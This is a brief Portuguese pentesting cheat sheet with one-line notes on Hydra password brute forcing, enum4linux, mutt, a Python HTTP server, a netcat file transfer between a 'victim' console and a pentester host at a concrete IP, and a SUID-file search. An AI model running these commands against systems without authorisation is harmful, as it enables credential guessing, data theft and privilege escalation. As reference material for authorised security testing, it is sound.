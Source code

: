 HYDRA -l {usuario ou wordlist.txt} -P {senha ou wordslist.txt} {IP} http-head -V
- Brute Forçe em usuario Linux
---------------------------------------------------------------------------------
ENUM4LINUX
- enumera infomaçoes do sistema.
---------------------------------------------------------------------------------
MUTT
- Sistema automatico de envio de gmail.
- echo 'Teste com anexo' | mutt -s 'Assunto teste com anexo' -a arquivos -- destinatario@gmail.com
---------------------------------------------------------------------------------
PYTHON -m http.server 8080
- Cria um Servidor Basico na Porta Escolhida.
---------------------------------------------------------------------------------
NETCAT
- nc pode ser utilizado para transferir arquivo com o  simbulos (<,>).
- exemplo nc 52.237.27.64 666 > arquivo - console da vitima || nc -lvp 666 < arquivo - console do pentester.
---------------------------------------------------------------------------------
FIND / -perm -4000 2>/dev/null
- encontra arquivos que o usuario tem permissao de rodar.
